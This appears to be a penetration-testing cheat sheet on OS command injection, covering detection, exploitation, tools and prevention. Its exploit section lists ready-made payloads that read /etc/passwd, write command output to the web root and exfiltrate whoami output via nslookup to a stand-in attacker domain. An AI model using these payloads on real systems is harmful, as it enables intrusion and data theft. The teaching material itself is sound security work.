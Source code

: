# Command Injection

### How to Find

#### Black-Box Testing

* Map the application (Using Burp)
  * Identify all instances where the web application appears to be interacting with the underlying operating system
* Fuzz the application
  * Shell metacharacters: `&`, `&&`, `|`, `||`, `;`, `\n`, `` ` ``, `$()`.
* For in-band command injection, analyze the response of the application to determine if it's vulnerable.
* For blind command injection, you need to get creative.
  * Trigger a time delay using the ping or sleep command.
  * Output the response of the command in the web root and retrieve the file directly using a browser.
  * Open an out-of-band channel back to a server you control.

#### White-Box Testing

* Perform a combination of black box and white-box testing
* Map all input vectors in the application.
* Review source code to determine if any of the input vectors are added as parameters to functions that execute system commands.

### How to Exploit

#### In-band

* Shell metacharacters: `&`, `&&`, `|`, `||`, `;`, `\n`, `` ` ``, `$()`.
* Concatenate another commands
  * `127.0.0.1 && cat /etc/passwd &`
  * `127.0.0.1 & cat /etc/passwd &`
  * `127.0.0.1 || cat /etc/passwd &`

#### Blind

* Shell metacharacters: `&`, `&&`, `|`, `||`, `;`, `\n`, `` ` ``, `$()`.
* Trigger a time delay.
  * `127.0.0.1 && sleep 10 &`
  * `127.0.0.1 ping -c 10 127.0.0.1 &`
* Output the response of the command in the web root and retrieve the file directly using a browser
  * `127.0.0.1 & whoami > /var/www/static/whoami.txt &`
* Open an out-of-band channel back to a server you control.
  * `127.0.0.1 & nslookup asdfjkl.web-attacker.com &`
  * ``127.0.0.1 & nslookup `whoami` .asdfjkl.web-attacker.com &``

### Automate Exploitation Tools

* Burp Suite
* arachni
* OWASP Zap
* Wapiti
* acunetix
* w3af

### How to Prevent

The most effective way to prevent OS command injection vulnerabilities is to never call out to OS commands from application-layer code. Instead, implement the required functionality using safer platform APIs.

* For example: use `mkdir()` instead of `system("mkdir /dir_name")`

If it is required to perform OS commands using user-supplied input, then strong input validation must be performed.

* Validate against a whitelist of permitted values.
* Validate that the input is as expected or valid input.


